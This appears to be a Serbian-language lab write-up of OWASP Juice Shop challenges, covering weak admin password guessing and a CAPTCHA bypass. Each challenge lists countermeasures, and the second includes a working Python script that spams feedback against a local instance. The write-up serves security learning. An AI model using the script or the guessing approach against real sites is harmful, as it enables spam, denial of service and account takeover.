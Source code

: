 ## 1) Saznati adminovu lozinku (pošto se nije potrudio da bude teška za otkriti:)

**Назив изазова у апликацији**: **Password Strength**

**Класа напада**: Лоша аутентификација

**Утицај**: Нападач може неовлашћено приступити администраторском, или било ком другом налогу.

**Рањивости**: Лозинка налога је довољно једноставна да се може провалити брут форс нападом уз генеричку листу лозинки, или чак слепим погађањем.
Не постоји заштита од прекомерних нити аутоматизованих захтева за пријавом.

**Контрамере**:

1. Захтевати од корисника да користи довољно јаку лозинку ослањајући се, на пример, на [OWASP ASVS](https://github.com/OWASP/ASVS/blob/master/4.0/en/0x11-V2-Authentication.md#v21-password-security-requirements) стандард
2. _Login Throttling_ као заштита од прекомерних захтева
3. Кепча заштита од аутоматизованих захтева

**Белешке**:

Администраторова мејл адреса је пронађена у рецензији једног производа, а лозинка "admin123" је слепо погођена.

## 2) Zaobići CAPTCHA zaštitu protiv automatizovanog davanja review-a

**Назив изазова у апликацији**: **CAPTCHA Bypass**

**Класа напада**: DoS, лоша анти-аутомација

**Утицај**: Нападач брзо може послати велик број захтева и изазвати denial of service.
Нападач може поплавити базу података за фидбеком и попунити читав простор на диску.
Апликација има увећан лажни саобраћај (нарушена аналитика).

**Рањивости**: Решење капче се шаље у HTTP одговору. Капча се шаље у формату погодном
за рачунар да га брзо реши (у случају да се не шаље тачан одговор).

**Контрамере**:

1. Решење капче се не сме слати као одговор на захтев. Оно се чува у бази и пореди на бекенду.
2. Тај математички израз треба послати као слику где су симболи и позадина модификовани (шум, дисторција итд.) да их OCR не може препознати.

**Белешке**:

Текст могу добавити преко `document.getElementById("captcha")`.
У JS-у могу евалуирати користећи `eval(document.getElementById("captcha").textContent);`.

Кепча се добавља у `GET /rest/captcha/` захтеву.
Резултат захтева је:

```json
{
  "captchaId": 5,
  "captcha": "4*7+5",
  "answer": "33"
}
```

Тако да не морам ни да се трудим око евалуације, бекенд сам врати резултат.

Форма са кепчом се шаље на `POST /api/Feedbacks/` уз следеће податке:

```json
{
  "UserId": 22,
  "captchaId": 6,
  "captcha": "123",
  "comment": "123 (***.a)",
  "rating": 2
}
```

Тако да могу написати пајтон скрипту која ће спамовати фидбек:

```python
import requests
import json

def submit_fake_response():
    res = requests.get("http://localhost:3000/rest/captcha")

    captcha_payload = json.loads(res.content.decode("utf-8"))
    captcha_answer = captcha_payload['answer']
    captcha_id = captcha_payload['captchaId']
    payload = {
        "UserId":22,
        "captchaId":captcha_id,
        "captcha":str(captcha_answer),
        "comment":"spam (***.a)",
        "rating":2
    }

    requests.post("http://localhost:3000/api/Feedbacks", json=payload)


for i in range(100):
    submit_fake_response()
```

## 3) Otkriti i skinuti easter egg

Easter Egg
